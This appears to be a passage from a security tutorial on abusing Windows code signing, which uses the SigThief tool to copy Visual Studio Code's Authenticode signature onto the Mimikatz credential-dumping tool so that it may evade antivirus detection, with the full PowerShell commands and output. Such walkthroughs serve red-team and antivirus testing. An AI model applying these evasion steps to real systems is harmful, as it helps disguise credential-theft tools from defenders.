 With `/pa`

```powershell
PS C:\Users\User > & "C:\Program Files (x86)\Windows Kits\10\bin\10.0.19041.0\x64\signtool.exe" verify /pa "C:\Users\User\AppData\Local\Programs\Microsoft VS Code\Code.exe"
File: C:\Users\User\AppData\Local\Programs\Microsoft VS Code\Code.exe
Index  Algorithm  Timestamp
========================================
0      sha256     RFC3161

Successfully verified: C:\Users\User\AppData\Local\Programs\Microsoft VS Code\Code.exe
```

## Abusing Code Signing Certificates

[https://github.com/secretsquirrel/SigThief.git](https://github.com/secretsquirrel/SigThief.git)

This is a tool for copying one cert and applying it to another file (.exe, .cab, .dll, .ocx, .msi, .xpi and .xap files) and kernel-mode software. An example could be applying a Microsoft cert to Mimikatz. The tool itself does not append a valid signature to a file and I’ll get to that later, but it’s purpose is to test various AV vendors to see how they prioritize CAs and if they check the validity of the signature or just who it’s signed by.

## Using SigThief

The tool itself is very straightforward. Take a signature from one file and add it to another. There are other options like ripping the signature and saving it for later, possibly to append the same signature to multiple files. 

In this example, I’ll show how to take a certificate from VS Code and write it to Mimikatz. Mimikatz initially is not signed at all, so for it to have any chance at staying undetected, supplying a certificate is a good choice. 

```powershell
PS C:\Users\User > Get-AuthenticodeSignature "C:\Users\User\Downloads\mimikatz_trunk\x64\mimikatz.exe"

    Directory: C:\Users\User\Downloads\mimikatz_trunk\x64

SignerCertificate                         Status                            Path
-----------------                         ------                            ----
                                          NotSigned                         mimikatz.exe
```

```powershell
PS C:\Tools\SigThief > python .\sigthief.py -i "C:\Users\User\AppData\Local\Programs\Microsoft VS Code\Code.exe" -t "C:\Users\User\Downloads\mimikatz_trunk\x64\mimikatz.exe" -o mimicode.exe

!! New Version available now for Dev Tier Sponsors! Sponsor here: https://github.com/sponsors/secretsquirrel

Output file: mimicode.exe
Signature appended.
FIN.

PS C:\Tools\SigThief > .\mimicode.exe                                                                                                                                                                                                               ...#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08                                                             ..## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)                                                                               .## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # exit
```
